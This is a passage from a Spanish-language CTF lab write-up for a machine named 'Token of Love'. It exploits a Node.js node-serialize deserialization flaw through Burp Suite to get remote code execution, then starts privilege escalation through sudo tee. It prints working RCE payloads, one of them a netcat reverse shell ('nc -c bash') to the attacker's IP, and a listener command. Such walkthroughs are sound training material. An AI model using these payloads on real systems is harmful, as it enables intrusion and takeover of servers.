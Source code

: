 Por otro lado observando las cabeceras de la respuesta que obtuvimos al principio con `whatweb` o mediante las herramientas de desarrollador del propio navegador, y podemos ver que el backend es una aplicación con Express, framework de Node.js.

![alt text](/assets/token-of-love/image-8.png)

Ademas hay un mensaje muy subjetivo en la web:

```text
Serializa tu mensaje y envíalo con cariño.
```

Utilizamos Burp Suite y capturamos el envío de un mensaje y lo enviamos al repeater.

Modificamos la data enviada por el siguiente payload:

```json
{"data":"{\"text\":\"test\",\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('wget 192.168.1.116', function(error, stdout, stderr) { console.log(stdout) });}()\"}"}
```

Envía un JSON con el parámetro `data` donde dentro parece enviar otro json, que en realidad es un objeto javascript que deserializa en el servidor, conseguimos RCE.

![alt text](/assets/token-of-love/image-9.png)

Más información sobre esta técnica:

- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
- https://hacktricks.boitatech.com.br/pentesting-web/deserialization#node-serialize
- https://www.exploit-db.com/exploits/45265
- https://www.exploit-db.com/exploits/49552
- https://www.exploit-db.com/exploits/50036

Nos ponemos a la espera de un revshell con netcat en el puerto 12345 

```bash
nc -lvnp 12345
```

y enviamos el siguiente payload mediante burp suite.

```json
{"data":"{\"text\":\"test\",\"rce\":\"_$$ND_FUNC$$_function (){require('child_process').exec('nc -c bash 192.168.1.116 12345', function(error, stdout, stderr) { console.log(stdout) });}()\"}"}
```

Obtenemos una shell como el usuario `cupido`.

![alt text](/assets/token-of-love/image-10.png)

## Escalada privilegios

Tratamos la terminal para trabajar mejor. Vemos que el usuario `cupido` puede ejecutar `tee` como el usuario eros sin contraseña.

```bash
cupido@tokenoflove:~/tokenoflove$ sudo -l
Matching Defaults entries for cupido on tokenoflove:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User cupido may run the following commands on tokenoflove:
    (eros) NOPASSWD: /usr/bin/tee
```
